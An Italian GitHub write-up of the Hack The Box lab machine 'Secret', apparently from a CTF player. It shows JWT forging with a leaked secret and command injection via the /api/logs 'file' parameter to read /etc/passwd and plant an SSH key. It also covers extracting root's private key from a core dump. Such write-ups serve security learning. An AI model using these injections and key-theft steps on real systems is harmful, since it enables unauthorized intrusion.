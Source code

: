 # HTB-Secret-WriteUp
Write Up of HTB machine: Secret

Prima di poter connettersi ad una macchina di HTB è necessario scaricare il certificato della VPN dalla dashboard ed utilizzare OpenVPN:

**$openvpn [file.ovpn]**

![image](https://user-images.githubusercontent.com/65173648/150963493-27b74dcf-dc73-4008-952e-20b67bcf793f.png)

Effettuo lo scanning (fase in cui cerchiamo di raccogliere quante più informazioni possibili dall'host):

**$nmap -sS -p- -T4 -Pn -oA portScan [IP target]**

![image](https://user-images.githubusercontent.com/65173648/150964450-75c5a322-0788-4eea-85b4-93f372503525.png)

Effettuo l'enumeration (fase in cui cerchiamo di approndire le informazioni andando ad enumerare le porte trovare in fase di scansione):

**nmap -sV -sC –p [porte trovate separate da virgola] -oA versionScan [IP target]**

![image](https://user-images.githubusercontent.com/65173648/150964922-e59aae36-22f5-4b6a-901e-a12fc41d63b6.png)

Si può notare, a prima vista, che sono presenti un web server su porta 80 e un'applicazione in Node.js su porta 3000, riportanti lo stesso titolo.

Applicazione Web:

![image](https://user-images.githubusercontent.com/65173648/150966584-c3ff72de-143a-469e-a062-19af3089a506.png)

Andando a spulciare il sito a mano e investigando nelle cartelle si notano dei path interessanti da approfondire. 

Utilizzo **gobuster** e mi salvo l'output dell'enumeration:

**$gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt dir -u [IP target] | tee WebEnumeration.txt**

![image](https://user-images.githubusercontent.com/65173648/150967244-a7e380ac-d6a0-42d9-8ec8-cae82fa97c08.png)

Uno dei path interessanti è **/api** (potenziale punto d'accesso alla macchina).

La sezione relativa alla documentazione dell'applicazione web presenta un esempio di login con "theadmin". Provo a creare un utetne con le stesse credenziali ma non va a buon fine:

**curl -i -X POST -H 'Content-Type: application/json' -d '{"name":"theadmin", "email":"drt@dasith.works", "password":"provaPassword"}' http://10.10.11.120/api/user/register**

![image](https://user-images.githubusercontent.com/65173648/150968135-0f22d504-5734-4e5e-95d6-4d3c306383d0.png)

Decido di creare un utente personale e provare a bypassare la JWT validation dato che nel file routes/verifytoken.js è presente un algoritmo JWT non specificato:

(Se riesco a bypassare la JWT, da utente user potrei diventare admin.)

**curl -i -X POST -H 'Content-Type: application/json'-d '{"name":"m96dgHack", "email":"m96dg@hack.it", "password":"provaPassword"}' http://10.10.11.120/api/user/register**

  
 ![image](https://user-images.githubusercontent.com/65173648/150968542-a24017bf-66d5-432d-9d0c-f06b4f17b31b.png)

Effettuo il login:

**curl -i -X POST -H 'Content-Type: application/json'-d '{"email":"m96dg@hack.it", "password":"provaPassword"}' http://10.10.11.120/api/user/login**
  
  ![image](https://user-images.githubusercontent.com/65173648/150968638-7e7393da-04f2-4bc7-9bb9-8ae554e471e7.png)

Noto che mi viene generato un **AUTH-TOKEN** e me lo conservo.

All'interno delle cartelle c'è un file **.env** che fa riferimento ad un **TOKEN_SECRET**.

Utilizzando **jwt.io** si può notare come sia presente una voce "secret" in basso a destra, ossia un box dove inserire il token segreto dalla "history" della cartella **.git**. Il token secret del file .env non è quello giusto.

Seguire i comandi degli screen che seguono:

![image](https://user-images.githubusercontent.com/65173648/150969681-588a871c-28ba-43b6-a282-2c5c7d5b3bda.png)

![image](https://user-images.githubusercontent.com/65173648/150969704-33da6ee3-3d66-43fe-a881-d65dd8dabf66.png)

![image](https://user-images.githubusercontent.com/65173648/150969732-50fdf5ba-28e3-4c14-a68a-51123f33cdc0.png)

Conservare il TOKEN_SECRET ed utilizzarlo in combo con l'AUTH-TOKEN.

La combinazione **AUTH-TOKEN + TOKEN_SECRET** darà luogo al nuovo token decriptato da inserire per accedere come admin (prima, però, bisogna modificare il "name" da "m96dgHack" in "**theadmin**").

![image](https://user-images.githubusercontent.com/65173648/150970069-d94737c6-af0e-401a-ad78-305b3dd6d10b.png)

Arrivato a questo punto, mi incuriosisce sapere se posso effettivamente sfruttare le api sia come user sia come admin (utilizzo AUTH-TOKEN e token decriptato):

**curl -w '\n' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5N2JlM2JiMzNiMzA0NzFkM2JjODgiLCJuYW1lIjoibTk2ZGdIYWNrIiwiZW1haWwiOiJtOTZkZ0BoYWNrLml0IiwiaWF0IjoxNjQxNjQzMDI5fQ.l8Abgxt-ECwkhofDuNU08KoUIPAvSY8E8IZkqXUdg6c' http://10.10.11.120/api/priv**
  
  ![image](https://user-images.githubusercontent.com/65173648/150971154-b2bbb366-ad32-4158-8158-b73e45fa89af.png)

  
 **curl -w '\n' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5N2JlM2JiMzNiMzA0NzFkM2JjODgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Im05NmRnQGhhY2suaXQiLCJpYXQiOjE2NDE2NDMwMjl9.ghzttiJ53g9Q-cufWxhvEez8572dkHHhYlcoyzfPUAQ' http://10.10.11.120/api/priv**
  
  ![image](https://user-images.githubusercontent.com/65173648/150971181-eff13e84-1a28-4f8e-874a-4a798b255a59.png)

Sfrutto le api per leggere il file di logs:

**curl -i -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5N2JlM2JiMzNiMzA0NzFkM2JjODgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Im05NmRnQGhhY2suaXQiLCJpYXQiOjE2NDE2NDMwMjl9.ghzttiJ53g9Q-cufWxhvEez8572dkHHhYlcoyzfPUAQ
  ' 'http://10.10.11.120/api/logs?file=index.js;id;cat+/etc/passwd' | sed 's/\\n/\n/g'**
  
 Noto l'utente "**dasith**" e provo ad accedere in ssh, ricordandomi le porte scansionate (porta **22** aperta).
 
 Creo una coppia di **chiavi ssh** e copio la mia chiave pubblica all'interno del server così da poter sfruttare la connessione in ssh:
 
 **ssh-keygen -t rsa -f secret.htb -P ''**
 
 ![image](https://user-images.githubusercontent.com/65173648/150971755-ebbbeecd-b0dc-45ff-b667-a1a3581bb317.png)

![image](https://user-images.githubusercontent.com/65173648/150971768-7dbbe444-9f5b-489e-91eb-9e64a46c9d17.png)

![image](https://user-images.githubusercontent.com/65173648/150971800-84475b47-5ffd-4f71-8545-1804a76dbb5c.png)

 
**curl -i -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5N2JlM2JiMzNiMzA0NzFkM2JjODgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Im05NmRnQGhhY2suaXQiLCJpYXQiOjE2NDE2NDMwMjl9.ghzttiJ53g9Q-cufWxhvEez8572dkHHhYlcoyzfPUAQ
' -G 'http://10.10.11.120/api/logs' --data-urlencode "file=index.js; mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys"**

Una volta loggato in ssh, ho ottenuto l'accesso come utente di sistema e ricavo la flag **user.txt**:

 ![extra_flag_user](https://user-images.githubusercontent.com/65173648/150972236-60828c9b-c848-46fd-9163-0456f942bf2b.PNG)


Ottenuta la user flag, procedo con la **privilege escalation** (fase in cui si sfrutta l'utente di sistema per accedere all'utente root con permessi di amministratore).

Cerco di sfruttare al meglio i path a cui può accedere l'user, e noto il path **/opt**, in cui sono presenti **3 file** interessanti (di cui 1 compilato).

Decido di runnare il file e provare ad accedere con i permessi di root:

![20_run_count](https://user-images.githubusercontent.com/65173648/150973629-7956f73a-f0c9-4bdf-995e-71375f97fc01.PNG)

Nulla di interessante!

Leggendo il file **valgrind.log** noto che c'è un riferimento alla memoria e decido di sfruttare il **Core Dump** (eseguo il programma e lo induco al crash):

![22_coredump_crash](https://user-images.githubusercontent.com/65173648/150974294-45be22c0-ea87-4679-a937-5ca3a270fced.PNG)

![23_sigsegv](https://user-images.githubusercontent.com/65173648/150974320-b7c989e2-6633-4ea1-91f9-861e5fa9c51c.PNG)


**$apport-unpack_opt_count.1000.crash /tmp/crash-report**

![24_reports](https://user-images.githubusercontent.com/65173648/150974637-1cbce728-01b3-47e3-9da8-0f5cb014e4eb.PNG)

Sfrutto **strings** per CoreDump:

![25_strings_coredump](https://user-images.githubusercontent.com/65173648/150974709-b202ed57-54dd-4d6b-98b3-18af75c4a9b7.PNG)

Dato che ottengo dei risultati importanti, decido di sfruttare lo stesso metodo con **/root/.ssh/id_rsa** e provare ad accedere alla chiave privata di root:

![26_crasf_for_idrsa](https://user-images.githubusercontent.com/65173648/150974882-372aeb35-7991-4782-b48c-61b1fdbdb83f.PNG)

E' possibile copiare la chiave privata di root dai risultati e provare ad accedere in ssh con essa:

![extra_root_user](https://user-images.githubusercontent.com/65173648/150975112-b57dbda8-cf9b-4915-8897-9aa899a811fe.PNG)

Ho trovato la **root.txt**!

Una volta che si inseriscono le due flag in HTB, il gioco è fatto!

![28_pwned](https://user-images.githubusercontent.com/65173648/150975209-def9973c-d6a4-4a35-8763-4665c02dd33d.PNG)







